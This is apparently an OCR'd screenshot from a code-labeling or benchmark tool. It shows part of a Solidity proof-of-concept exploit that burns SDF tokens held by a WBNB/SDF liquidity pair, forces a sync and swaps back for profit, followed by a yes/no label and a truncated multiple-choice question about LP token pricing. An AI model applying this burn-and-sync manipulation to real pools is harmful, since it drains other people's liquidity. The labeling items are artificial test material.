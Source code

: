 │                                                                                                                                                                                                                                                      │
│         address(WBNB).call{value: 0.01 ether}("");                                                                                                                                                                                                   │
│         WBNBToSDF();                                                                                                                                                                                                                                 │
│         SDF.burn(address(Pair), SDF.balanceOf(address(Pair)) - 1);                                                                                                                                                                                   │
│         Pair.sync();                                                                                                                                                                                                                                 │
│         SDFToWBNB();                                                                                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│          emit log_named_decimal_uint(                                                                                                                                                                                                                │
│             "[End] Attacker WBNB balance after exploit",                                                                                                                                                                                             │
│             WBNB.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function WBNBToSDF () public{                                                                                                                                                                                                                    │